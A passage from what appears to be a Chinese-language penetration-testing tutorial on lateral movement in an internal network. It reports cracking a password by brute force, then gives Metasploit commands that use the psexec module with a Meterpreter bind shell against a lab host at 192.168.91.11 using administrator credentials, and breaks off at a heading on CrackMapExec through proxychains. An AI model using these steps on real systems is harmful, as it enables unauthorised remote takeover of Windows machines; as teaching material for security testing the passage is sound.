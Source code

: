 满长时间爆破后最终爆破到了账号密码

[![](assets/1702372940-a1e89d287c4b383694ea397235be7805.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/42.png)

#### [](#%E7%9B%B4%E6%8E%A5%E5%88%A9%E7%94%A8%E5%B7%B2%E7%9F%A5%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%81 "直接利用已知账号密码")直接利用已知账号密码[](#%E7%9B%B4%E6%8E%A5%E5%88%A9%E7%94%A8%E5%B7%B2%E7%9F%A5%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%81)

```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set RHOSTS 192.168.91.11
set smbuser administrator
set smbpass Abcd1234!@#
run
```

[![](assets/1702372940-5e9650f5c30f76df50306901ebc9c1ea.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/44.png)

#### [](#%E4%BD%BF%E7%94%A8proxychains%E9%85%8D%E5%90%88%E4%BD%BF%E7%94%A8CrackMapExec "使用proxychains配合使用CrackMapExec")使用proxychains配合使用CrackMapExec[](#%E4%BD%BF%E7%94%A8proxychains%E9%85%8D%E5%90%88%E4%BD%BF%E7%94%A8CrackMapExec)
